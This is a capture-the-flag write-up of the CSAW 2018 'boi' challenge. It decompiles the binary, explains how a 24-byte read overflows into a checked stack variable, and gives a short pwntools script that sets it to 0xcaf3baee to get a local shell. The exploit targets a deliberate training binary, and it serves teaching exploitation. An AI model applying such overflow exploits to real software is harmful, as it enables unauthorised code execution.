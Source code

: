 # boi

[Link to
binary](https://github.com/guyinatuxedo/nightmare/raw/master/modules/04-bof_variable/csaw18_boi/boi)

---

```
~/Downloads > ./boi 
Are you a big boiiiii??
you bet
Sat Sep 18 08:51:12 PM CEST 2021
```

This challenge looks similar to the past ones: a prompt that asks for input. The
challenge description says this is solved by smashing the stack.

Let's take a look at main:

```
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 local_38;
  undefined8 local_30;
  undefined4 uStack40;
  uint iStack36;
  undefined4 local_20;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 40);
  local_38 = 0;
  local_30 = 0;
  local_20 = 0;
  uStack40 = 0;
  iStack36 = 3735928559;
  puts("Are you a big boiiiii??");
  read(0,&local_38,24);
  if (iStack36 == 0xcaf3baee) {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  if (canary != *(long *)(in_FS_OFFSET + 40)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Ok so if we can figure out how to make `iStack36` be equal to `0xcaf3baee` then we'll get access to a shell and the challenge is solved.

You can see that the binary reads 24 bytes and stores them in the stack starting from `local_38`. But that is only 8 bytes. So `local_30` takes up another 8 bytes. Then `uStack40` takes 4. And then we have our target variable `iStack36` taking up the remaining 4.

Can we craft a 24 bytes input which puts the last 4 bytes inside `iStack36`? Yes it's very straightforward. Here's a Python script that does that:

```python
from pwn import *

p = process("./boi")

p.sendline(20 * b" " + bytes.fromhex("caf3baee")[::-1])
p.interactive()
```

The `[::-1]` I added simply because it didn't work without it so I figured it
could be an endianness issue, and it was because reversing the bytes solved it.

```
~/Downloads > python pwn_boi.py 
[+] Starting local process './boi': pid 19183
[*] Switching to interactive mode
Are you a big boiiiii??
$ whoami
elia
```

